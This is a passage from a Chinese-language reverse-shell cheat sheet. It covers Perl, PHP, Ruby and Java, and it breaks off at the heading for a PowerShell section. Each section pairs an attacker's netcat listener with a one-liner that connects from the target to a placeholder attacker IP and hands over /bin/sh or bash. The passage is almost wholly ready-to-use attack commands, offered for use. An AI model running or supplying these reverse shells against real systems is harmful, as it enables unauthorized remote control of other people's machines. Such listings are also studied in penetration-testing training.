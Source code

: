 ### 4. Perl

#### Perl反弹shell
```bash
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
perl -e 'use Socket;$i="<攻击者IP>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 5. PHP

#### PHP反弹shell
```php
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
php -r '$sock=fsockopen("<攻击者IP>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 6. Ruby

#### Ruby反弹shell
```ruby
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
ruby -rsocket -e'f=TCPSocket.open("<攻击者IP>",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 7. Java

#### Java反弹shell
```java
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<攻击者IP>/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 8. PowerShell (适用于Windows)
